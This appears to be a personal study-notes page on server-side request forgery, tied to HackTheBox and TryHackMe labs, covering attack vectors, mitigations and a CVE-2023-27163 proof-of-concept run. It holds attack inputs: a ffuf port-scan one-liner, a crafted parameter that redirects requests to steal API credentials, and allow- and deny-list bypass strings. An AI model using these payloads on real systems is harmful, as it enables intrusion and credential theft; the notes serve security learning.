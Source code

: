 # Server-Side Request Forgery (SSRF)

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)
[![adventofcyber2](../../../../_badges/thm/adventofcyber2/day19.svg)](https://tryhackme.com/room/adventofcyber2)
[![testingforssrf](../../../../_badges/owasp/testingforssrf.svg)](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/19-Testing_for_Server-Side_Request_Forgery)
[![server_side_request_forgery](../../../../_badges/poat/server_side_request_forgery.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

<div class="row row-cols-lg-2"><div>

Server-Side Request Forgery (SSRF) is an attack in which a hacker can make a server request something from another server, usually an internal server or an API.

From instance, a website using an API. If there is a SSRF vulnerability, the hacker may be able to query the API by exploiting the website.

Common attack vectors

* 📚 Headers <small>(mostly User-Agent)</small>
* 📄 Forms <small>(internal API calls)</small>
* 🍪 Cookies
* 🌍 Remote connections <small>(imports, file processing, etc.)</small>
</div><div>

Common usages are:

* Port mapping
* Firewall by-pass
* Steal sensitive data

There are two kinds of SSRF

* **Regular/in-band SSRF**: the client will see the result
* **Blind/out-band SSRF**: nothing is returned to the client

Refer to [request grabber](/cybersecurity/red-team/_knowledge/topics/request_grabber.md) to catch requests.
</div></div>

<hr class="sep-both">

## SSRF Attack Vectors

<div class="row row-cols-lg-2"><div>

#### Remote URL Access

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)

The most common scenario is when a website requests an external resources using user input, such as an external avatar URL.

A common scenario is a [PHP](/programming-languages/web/php/_general/index.md) call to `file_get_contents` to access a remote file. You have similar functions in other languages.

You may be able to:

* Map ports/services 🗺️
* Steal files 💰

#### Remote API Endpoint Access

[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)

If a website is making a request to an external API based on a endpoint controlled by the user, we may be able to access another unintended endpoint. Ex: `website.a/?api=path` $\to$ `website.b/path`.

You may be able to:

* Access unintended API endpoints 🛣️
</div><div>

#### Remote API Access

[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)

If the programmer is using user input to determine which server will be queried, then the hacker may try to send the request to their servers instead, and get the API credentials inside the headers.

Ex: `a?api=xxx&r=path` $\to$ `xxx.b/path`

* We send the request to `https://xxx.thebestapi.example/path`
* If `api=malicious_website.com?&ignore=`, then the URL crafted is `https://malicious_website.com?&ignore=.thebestapi.com/path`!

You may be able to:

* Steal API tokens/credentials 💵
</div></div>

<hr class="sep-both">

## SSRF Exploitation

<div class="row row-cols-lg-2"><div>

#### Mapping ports/services 🗺️

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)

You may inject URLs such as `http://localhost:22` to test if the port `22` is open. You can use fuzzing to enumerate all ports:

```ps
$ seq 1 65535 > ports.txt
$ ffuf -w ports.txt -u 'http://IP/?xxx=http://127.0.0.1:FUZZ' -fr 'Connection refused'
```

You could also make the server call `http://ifconfig.pro/` to get some information <small>(IP, DNS...)</small> to perform more advanced attacks.
</div><div>

#### Steal files 💰

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)

You may inject URLs to steal a file. For instance, a URL using the file protocol: `file://some/file/on/the/target`.

* [List of interesting files](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/arbitrary_file_access.md)
* You could also try to connect to your FTP server using `ftp://`.
</div></div>

<hr class="sep-both">

## Mitigations 🛡️

[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)

<div class="row row-cols-lg-2"><div>

**Allow List/Whitelist**

We define what is allowed such as which URLs/resources. It can be bypassed. If there is a condition like `the URL must start with https://example.com`, then it can be bypassed with:

* `https://example.com.malicious.website`
* `https://example.com@malicious.website`
</div><div>

**Deny list/Blacklist**

You may allow every IP aside from some such as localhost <small>(127.0.0.1)</small>, or `169.254.169.254` in a cloud environment, but there are usually a lot of ways to bypass such filters. 

All of these are resolving to `127.0.0.1`:

*  `0`, `00`, `000[...]0`, `0.0.0.0`, `127.1` (IP shortening)
* `2130706433` (decimal), `017700000001` (octal)
* [127.0.0.1.nip.io](http://127.0.0.1.nip.io), [localtest.me](http://localtest.me), [lvh.me](http://lvh.me), [nip.io](https://nip.io/) etc.
* ...
</div></div>

<hr class="sep-both">

## Example CVEs

<div class="row row-cols-lg-2"><div>

#### CVE-2023-27163

[![sau](../../../../_badges/htb-p/sau.svg)](https://app.hackthebox.com/machines/Sau)

CVE in [request-baskets](https://github.com/darklynx/request-baskets). [POC (shell script)](https://github.com/entr0pie/CVE-2023-27163) <small>(0.03k ⭐)</small>.

```shell!
$ ./CVE-2023-27163.sh http://target:port http://listener:port 
Creating the "<backet>" proxy basket...
Basket created!
$ curl http://target:port/<backet> # send to listener
```

It can be used to access a resource behind a firewall.

```ps
$ ./CVE-2023-27163.sh http://target:port http://target:port2 
```
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

Other attack vectors

* avatar form
* a script
* a header
* ...
</div><div>

* Blind SSRF (requestbin/burp collaborator)
</div></div>